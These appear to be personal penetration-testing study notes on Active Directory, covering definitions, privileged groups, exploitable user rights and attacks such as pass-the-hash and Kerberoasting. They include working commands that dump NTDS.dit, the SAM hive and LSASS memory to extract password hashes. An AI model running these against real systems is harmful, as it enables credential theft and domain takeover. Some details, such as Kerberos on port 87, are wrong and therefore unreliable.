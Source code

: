 # AD

## Definition

 - Domain Controllers: handle authentication requests, verify users on the network, and control who can access the various resources in the domain
 - Service Principal Name: service account. used by Kerberos authentication to associate an instance of a service with a logon account, allowing a client application to request the service to authenticate an account without needing to know the account name.
 - Objects stored in AD: Domain computers, domain users, Group Policy Objects (GPO), ...
 - Forest > Tree > AD domain > Object > Attributes
 - Security principals are anything that the operating system can authenticate, including users, computer accounts, ... There are security principals managed by AD and local user accounts & security groups managed by [Security Accounts Manager (SAM)](https://en.wikipedia.org/wiki/Security_Account_Manager)
 - Security Identifier (SID): SID - used as a unique identifier for a security principal or security group. 
 - sAMAccountName: user's logon name
 - userPrincipalName: another way to identify users in AD. Made of a prefix (the user account name) and a suffix (the domain name) : jones@domain
 - AD Recycle Bin
 - SYSVOL:  shared on an NTFS volume on all the domain controllers within a particular domain, deliver the policy and logon scripts to domain members
 - NTDS.DIT: stored on a Domain Controller at C:\Windows\NTDS\ and is a database that stores AD data 

AD Protocols
 - Lightweight Directory Access Protocol (LDAP)
   * LDAP port 389, LDAP over SSL (LDAPS) port 636
   * Active Directory is a directory server that uses the LDAP protocol
   * AD LDAP Authentication (BIND): Simple authentication (login/password), SASL
 - Microsoft's version of Kerberos: default authentication protocol for domain accounts since Windows 2000
   * As part of Active Directory Domain Services (AD DS), Domain Controllers have a Kerberos Key Distribution Center (KDC) that issues tickets.
   * Port 87
 - DNS for authentication and communication
 - MSRPC: Microsoft implementation of Remote Procedure Call (RPC)

Authentication methods: LM, NTLM, NTLMv1, NTLMv2, Kerberos

### Groups

 - [Built-in security groups](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#default-active-directory-security-groups)
 - **Server Operators**: only exist on domain controllers. Can modify services, access SMB shares, ... Should have no members. List server operators: `Get-ADGroup -Identity "Server Operators" -Properties *`
 - **Domain Admins**:  full access to administer the domain and are members of the local administrator's group on all domain-joined machines. List: `Get-ADGroup -Identity "Domain Admins" -Properties * | select DistinguishedName,GroupCategory,GroupScope,Name,Members`

### User righs assignments

 - Special rights that can lead to privilege escalation or access to sensitive files
 - **SeRemoteInteractiveLogonRight**: allow access throught RDP
 - **SeBackupPrivilege**: 
   * can do backup, so can backup sensistive files like the SAM and SYSTEM Registry hives and the NTDS.dit Active Directory database file. 
   * It also permits logging in locally to a DC, which can be used to grab `NTDS.dit` which contains NTLM hashes. 
   * [Tool to ease the use of SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)
   * [diskshadow to create a new disk so that NTDIS.dit is not in used](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow)
 
```
> diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit ntds.dit
> reg save HKLM\SYSTEM SYSTEM.SAV
> reg save HKLM\SAM SAM.SAV
$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
> Import-Module .\DSInternals.psd1
> $key = Get-BootKey -SystemHivePath .\SYSTEM
> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

 - **SeDebugPrivilege**: can attach and debug a process. 
   * Can read memory of  Local System Authority (LSASS) and use mimikatz to get creds. Can run `procdump.exe -ma lsass.exe lsass.dmp` to dump tokens stored in LSA, extract them with `mimikatz sekurlsa::minidump lsass.dmp` to load the dump the `mimikatz sekurlsa::logonpasswords` to get the hash and do a pass-the-hash attack
   * Can create a sub-process that can inheritate the parent process right ([psgetsystem](https://github.com/decoder-it/psgetsystem))
 - **SeImpersonatePrivilege**: can impersonate a privileged account like NT AUTHORITY\SYSTEM
 - **SeLoadDriverPrivilege**: can load drivers
 - **SeTakeOwnershipPrivilege**: take ownership of an object and so read a file share or a file on a share. 
   * Take ownership of a file: `takeown /f <filename>`
   * Get ownership: `Get-ChildItem -Path <filename> | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}`
   * Grant full privileges over a file: `icacls <filename> /grant <username>:F`
 - List Standard domain users: `whoami /priv`@sr

### Group Policy

 - Use to manage user setting, applications, OS... Policy that can be applied to user and computer (disabling USB port, enforce password poligy, managing apps, ...)
 - Gaining rights over a Group Policy Object could lead to lateral movement, privesc, ...
 - [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) application that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO. 

### PowerShell Commands

 - Get-ADUser -Identity <user>
 - Get-ADGroup  -Filter * |select samaccountname,groupscope
 - Get-ADGroup -Identity "Server Operators" -Properties *
 - New-ADUser
 - `Get-ADUser -Filter 'Name -like "Paul*Valencia"'`
 - New-GPO, New-GPLink

## Attacks

### Common

#### Pass-the-hash

NTLM is vulnerable to the pass-the-hash attack. An attacker can use the NTLM hash (after obtaining via another successful attack) to authenticate to target systems.

Hosts save the last ten hashes for any domain users that successfully log into the machine in the HKEY_LOCAL_MACHINE\SECURITY\Cache registry key. These hashes cannot be used in pass-the-hash attacks.

Tools:

 - `crackmapexec smb 10.10.10.10 -u username -p '<password>' [--users| --session | --groups | ...]`
 - `crackmapexec smb 10.10.10.10 -u username -H ntlm_hash_e46b9e548fa0d122de7f59fb6d48eaa2`
 - [crackmapexec smb ref](https://github.com/byt3bl33d3r/CrackMapExec/wiki/SMB-Command-Reference)

#### Kerberoasting

Find Service Principal Name (SPN) with weak password
If a user has a SPN registed (aka non-null servicePrincipalName property in AD), 
the TGS requested for the service associated to user is encrypted with the user password and if can be cracked offline.

Tools 

 - impacket-GetUserSPNs
 - Rubeus: https://github.com/GhostPack/Rubeus?tab=readme-ov-file#kerberoast

### Pass-the-ticket

### Golden ticket

The KDC service runs all on domain controllers that are part of an Active Directory domain. 
KRBTGT is the Kerberos Key Distribution Center (KDC) service account and is responsible for encrypting and signing all Kerberos tickets.
The KRBTGT password hash may be obtained using OS Credential Dumping and privileged access to a domain controller.



#### Others

 - [ASREPRoast](https://blog.harmj0y.net/activedirectory/roasting-as-reps/)
 - [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
 - Golden Tickets
 - A DNS server is often run on DC, can [lead to SYSTEM on DC](https://adsecurity.org/?p=4064)

### History

 - [PrintNightmare](https://en.wikipedia.org/wiki/PrintNightmare)
 - [ZeroLogon -  CVE-2020-1472](https://www.malwarebytes.com/blog/exploits-and-vulnerabilities/2021/01/the-story-of-zerologon)


### Lateral move


## Tools

### Impacket

### Empire

### Bloodhound

 - mimikatz: extract TGT/TGS from memory
 - CrackMapExec
 - Responder: https://github.com/SpiderLabs/Responder/commits/master?after=c02c74853298ea52a2bfaa4d250c3898886a44ac+174&branch=master
 - [Inveigh](https://github.com/Kevin-Robertson/Inveigh): Inveigh conducts spoofing attacks and hash/credential captures through both packet sniffing and protocol specific listeners/sockets. 

## References

 - https://lolad-project.github.io/
